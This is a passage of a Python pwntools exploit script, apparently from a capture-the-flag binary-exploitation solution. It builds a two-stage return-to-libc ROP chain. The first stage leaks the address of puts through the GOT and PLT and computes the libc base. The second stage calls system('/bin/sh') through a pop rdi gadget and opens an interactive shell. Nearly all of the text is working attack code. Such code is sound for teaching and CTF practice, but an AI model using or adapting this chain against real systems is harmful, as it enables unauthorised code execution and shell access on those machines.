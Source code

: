 ```python
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(plt_main)

send(payload)

leak = u64(r.recvline()[:8].strip().ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")
libc.address = leak - libc.symbols["puts"]
log.info(f"LIBC Base address @ {hex(libc.address)}")

#STAGE 2.
print()
log.success("Beginning STAGE 2.")
bin_sh = next(libc.search(b"/bin/sh")) # Libc /bin/sh address
system = libc.symbols["system"] # libc system address
log.info(f"bin_sh @ {hex(bin_sh)}")
log.info(f"system @ {hex(system)}")

#Crafting the final payload
payload = junk
payload += p64(ret_addr)
payload += p64(ret_addr)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

#Sending the payload
log.success("Sending the payload")
send(payload)
r.interactive()
```
